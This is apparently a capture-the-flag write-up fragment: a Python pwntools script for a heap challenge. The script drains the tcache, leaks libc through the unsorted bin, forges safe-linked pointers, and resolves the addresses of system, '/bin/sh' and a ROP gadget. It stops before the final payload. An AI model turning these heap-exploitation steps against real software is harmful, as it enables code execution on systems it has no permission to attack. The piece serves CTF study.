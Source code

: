    ![image-20240715214719216](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152147507.png)

   

```python
from pwn import *
# from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')

def debug():
    print(proc.pidof(p))
    pause()

# p = remote("node4.anna.nssctf.cn",28836)
p = process("./pwn") 
libc = ELF('./libc.so.6')
elf = ELF("./pwn")


def add():
    p.sendlineafter(b':','1')
    # p.sendlineafter(b':',str(size))
    # p.sendlineafter(b':',content)

def edit(index,content):
    p.sendlineafter(b':',b'4')
    p.sendlineafter(b':',str(index).encode())
    p.sendlineafter(b':',str(len(content)).encode())
    p.sendafter(b':',content)

def show(index):
    p.sendlineafter(b':',b'3')
    p.sendlineafter(b':',str(index).encode())

def free(index):
    p.sendlineafter(b':','2')
    p.sendlineafter(b':',str(index).encode())

def fd_glibc32(tcache_base,target_addr):
    success("fake_addr==>"+hex(target_addr))
    payload = p64(tcache_base^(target_addr))
    return payload

# 溢出进unsortedbin
for i in range(9):
    add()
for i in range(7):
    free(i)
#泄漏libc基地址
free(7)
show(7)
p.recv()
addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
success("main_arena_unsortbin_addr==>"+hex(addr))
main_arena_offset = 0x1F2C60
success("main_arena_offset==>"+hex(main_arena_offset))
libc_base = addr-(main_arena_offset+0x60)
success("libc_addr==>"+hex(libc_base))
 
#计算__free_hook和system地址
system_addr = libc_base+libc.sym["system"]
sh_addr = libc_base + next(libc.search(b"/bin/sh"))
environ_addr = libc_base+libc.sym["environ"]
pop_rdi_ret = libc_base + next(libc.search(asm('pop rdi;ret;')))
```